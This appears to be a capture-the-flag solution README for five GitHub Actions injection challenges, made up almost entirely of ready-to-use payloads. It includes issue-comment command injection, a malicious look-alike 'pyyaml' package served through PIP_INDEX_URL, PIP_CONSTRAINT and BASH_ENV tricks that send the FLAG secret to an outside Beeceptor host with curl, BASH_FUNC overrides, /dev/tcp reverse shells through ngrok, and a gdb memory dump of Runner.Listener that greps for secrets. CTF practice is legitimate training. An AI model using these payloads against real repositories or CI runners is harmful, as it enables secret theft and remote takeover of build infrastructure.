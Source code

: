 <a id="readme-top"></a>
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#chall-1">Challenge 1</a>
    </li>
    <li>
      <a href="#chall-2">Challenge 2</a>
      <ul>
        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-3">Challenge 3</a>
      <ul>
        <li><a href="#using-bash_env">Using BASH_ENV</a></li>
        <li><a href="#using-bash_func">Using BASH_FUNC</a></li>
      </ul>
    </li>
    <li>
      <a href="#chall-4">Challenge 4</a>
    </li>
    <li>
      <a href="#chall-5">Challenge 5</a>
    </li>
  </ol>
</details>

# Chall 1

Issue Comment:
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>






# Chall 2
### Using PIP_INDEX_URL
> [!NOTE]
> - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
> - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
> - [Cloudsmith](https://cloudsmith.io/~nebco/packages/)

_Below is how to setup the library to inject_
1. Install Python
2. Install PIP
```sh
pip install wheel
pip install setuptools
```
4. Create a new directory named pyyaml
5. Create a setup.py
```Python
from setuptools import setup, find_packages

setup(
    name='pyyaml',
    version='6.0.1',
    packages=find_packages(),
    install_requires=[],  # Si tu veux ajouter des dépendances
    entry_points={
        'console_scripts': [
            'yaml = yaml.main:main',  # yaml sera la commande qui déclenchera ton script
        ],
    },
)
```
6. Create a directory named `yaml`
7. Add `__INIT__` file in the directory named yaml and edit:
```Python
import os

print("COUCOU TDF3")
env_vars = os.environ
for key, value in env_vars.items():
    if key == "flag" or key == "FLAG":
        print("===== FLAG SPLIT =====")
        print(f'Part 1 (0-5): {value[0:5]}')
        print(f'Part 2 (5-100): {value[5:100]}')
```
8. Execute
``` sh
python setup.py bdist bdist_wheel
```

Issue Comment:
``` sh
Not a release :(
PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
```
> [!TIP]
> Alternatives to cloudsmith:
> - Host your own registry (local, AWS or other...)
> - Use github pages
>
> Sometimes indentation doesn't work when commenting an issue. It is therefore preferable to use `Github CLI` directly and push a file. `gh issue comment <id_issue> -F <file_name>`
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using PIP_CONSTRAINT
> [!NOTE]
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

1. Go to BeeCeptor.com
2. add new `Mocking Rules`
``` md
Match value: /<file_name>.txt
Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
```

Issue Comment:
``` bash
Not a release :(
PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/constraint.txt
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 3
### Using BASH_ENV
> [!NOTE]
> - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
> - [Beeceptor](https://beeceptor.com/)
> - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)

Body Issue Comment:
``` bash
Let me do something with this env :)
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





### Using BASH_FUNC
Body Issue Comment:
``` bash
Let me do something with this env :)
# BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
BASH_FUNC_echo%%=() { builtin echo "$FLAG $@" | base64 ;}
```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 4
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```

Body Issue Comment:
``` bash
Where is my bash ??
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
5. Investigate in the runner 
The directory `/home/runner/work/_temp` look interesting...


> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>





# Chall 5
1. Open a terminal for setup (client side)
2. Listen with NC
``` bash
nc -lv 4444
```
3. setup ngrok (new terminal)
``` bash
ngrok tcp 4444
```
4. Get ngrok IP to build payload (new terminal)
``` bash
dig <NGROK_DNS>
```
Body Issue Comment:
``` bash
Where is my bash ??
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
5. Dump `Runner.Listener` process memory and check those secrets
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

> [!TIP]
> Fancy shell for lazy DevOps :)
> ``` bash
> curl -sSf https://sshx.io/get | sh -s run
> ```
<p align="right">(<a href="#readme-top">back to top</a>)</p>
 
